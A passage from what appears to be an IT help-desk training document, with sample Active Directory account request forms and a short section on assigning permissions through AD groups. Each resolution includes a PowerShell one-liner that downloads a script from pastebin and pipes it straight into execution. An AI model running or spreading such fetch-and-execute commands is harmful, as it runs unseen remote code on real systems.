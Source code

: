 > <br />Employment Classification: Staff
> <br />Supervisor's EUID: dp00011
> <br />Additional Information:
> <br />Contact Phone Number:
> <br />Contact Email Address: [Nikhil.mikhailo@mailinator.com](mailto:Nikhil.mikhailo@mailinator.com)

**Resolution:**

Resolution of this task requires the creation of an AD user account. The account can be evaluated automatically with this PowerShell script:

`$section = 'ADU4'; iwr 'https://pastebin.com/raw/tQ95Q7Xh' -UseB | iex`

The automated process failed because the _EMPLID_ field has a dash in it; it should be just numbers.

#### Account Request – pd00001

**Emailed Request; via Online Form:**

> The results of this submission may be viewed at:
> <br />https://itservices.cas.unt.edu/node/11111111/submission/111111115
>
> Submitted on: Thursday, June 28, 2018 - 11:51:53 AM
> <br />Submitted by user: Visitor
> <br />Submitted from IP: 129.120.111.5
>
> Submitted values are:
>
> First Name: Pauline
> <br />Last Name: Duygu
> <br />EMPLID: 10000005
> <br />EUID: pd00001
> <br />Department: Environmental Sciences
> <br />Employment Classification: Faculty
> <br />Supervisor's EUID: Secundinus.Ligeia@donotreply.unt.edu
> <br />Additional Information: How do I connect to WiFi?
> <br />Contact Phone Number:
> <br />Contact Email Address: [Pauline.Duygu@mailinator,com](mailto:Pauline.Duygu@mailinator,com)

**Resolution:**

Resolution of this task requires the creation of an AD user account. The account can be evaluated automatically with this PowerShell script:

`$section = 'ADU5'; iwr 'https://pastebin.com/raw/tQ95Q7Xh' -UseB | iex`

The automated process failed because the _Contact Email Address_ field has a comma in the domain name portion making it an invalid email address.

### AD Group Requests Task Set

We never assign an AD user permission directly to a _thing_ (folder permission, printer, a local group on a computer, etc.). Instead, we assign direct permission to an AD group and put the user in that AD group. If we do assign permission directly, the task to audit permissions becomes daunting. We would have to look at every single system and check permission on that entire system. By using the AD group method, we would simply look at what AD groups the user is a member of and rely on the descriptions used.
